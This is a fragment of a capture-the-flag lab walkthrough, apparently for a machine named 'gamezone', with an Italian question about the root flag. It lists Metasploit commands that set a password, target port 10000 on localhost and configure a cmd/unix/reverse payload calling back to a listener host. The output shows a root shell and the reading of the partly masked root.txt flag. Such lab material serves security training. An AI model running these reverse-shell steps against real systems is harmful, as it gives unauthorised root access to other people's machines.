 ```
set PASSWORD videogamer124
```

```
set RHOSTS 127.0.0.1
 ```

```
set RPORT 10000
```

```
set payload cmd/unix/reverse
```

```
set SSL false
```

```
set LHOST 10.14.99.134
```

```
run
```

```
/bin/bash -i
```

```
whoami
```
root
```
cd /root
```

```
cat root.txt
```

```
root@gamezone:~# ls
ls
root.txt
root@gamezone:~# cat root.txt
cat root.txt
a4bxxxxxxxxxxxxxxxxxx
```
Qual'è il flag root?
```
a4bxxxxxxxxxxxxxxxxxxx
```

